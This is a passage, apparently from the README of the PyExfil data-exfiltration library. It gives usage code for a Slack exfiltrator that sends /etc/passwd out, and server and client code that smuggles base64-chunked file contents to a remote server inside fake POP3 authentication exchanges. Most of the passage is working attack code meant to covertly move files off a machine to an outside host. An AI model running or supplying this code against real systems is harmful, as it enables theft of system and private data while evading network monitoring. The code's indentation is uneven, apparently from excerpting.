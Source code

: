 Client:
```python
from pyexfil.network.Slack.slack_server import SlackExfiltrator

slackExf = SlackExfiltrator(slackID="11111FD", slackToken="xoxo-abc", encKey="Abc!23")
slackExf._connect2Slack()
slackExf.ExfiltrateFile(file_path="/etc/passwd")
```

#### POP3 Authentication
This module will attempt to authenticate over POP3 to a remote server. The password itself will be the data that is exfiltrated. We will welcome wrappers to this module. It's pretty bad...

Server:
```python
from pyexfil.network.POP3.pop_exfil_server import _open_socket

sockObj = _open_socket()
    while True:
        try:
            conn, address = sockObj.accept()
            sys.stdout.write("[+] Received a connection from %s:%s.\n" % (address[0], address[1]))
            start_new_thread(clientthread ,(conn,))
        except KeyboardInterrupt:
            sys.stdout.write("\nGot KeyboardInterrupt, exiting now.\n")
            sys.exit(ERR)
```

Client:
```python
from pyexfil.network.POP3.pop_exfil_client import get_file, connect_to_server

b64_file, file_crc = get_file(FLOC)
    sock = connect_to_server()
    data = sock.recv(MAX_SIZE)
    if data.find("+OK POP3 service") == -1:
        sys.stderr.write("[-] Server header did not match.\nHalting exfiltration.\n")
        sys.exit(ERR)
    sock.send("USER exfil\n")
    data = sock.recv(MAX_SIZE)
    if data.find("+OK password required for user exfil") == -1:
        sys.stderr.write("[-] Server did not accept the user. Something is wrong.\n")
        sys.exit(ERR)
    all_data_packets = [b64_file[i:i+CHUNK] for i in range(0, len(b64_file), CHUNK)]
    sock.send(base64.b64encode("%s;%s;%s;0" % (FLOC, file_crc, len(all_data_packets)))) # filename, crc32, packets_count, this_packet_count
    sys.stdout.write("[+] Server passed auth and has received the header.\n")
    data = sock.recv(MAX_SIZE)
    if data.find("-ERR [AUTH] Authentication failed") == -1:
        sys.stderr.write("[-] Did not get confirmations for file content.\n")
        sys.exit(ERR)

    progress = progressbar.ProgressBar()
    for i in progress(range(len(all_data_packets))):
        sock.send("%s;%s" % (i, all_data_packets[i]))
        time.sleep(0.1)
        data = sock.recv(MAX_SIZE)
        if data.find("-ERR [AUTH] Authentication failed") == -1:
            sys.stderr.write("[!] Error seding packet %s.\n" % i)
            break

    sock.send("0000")
    sock.close()
    sys.stdout.write("[+] Finished sending file. Closing socket.\n")
```
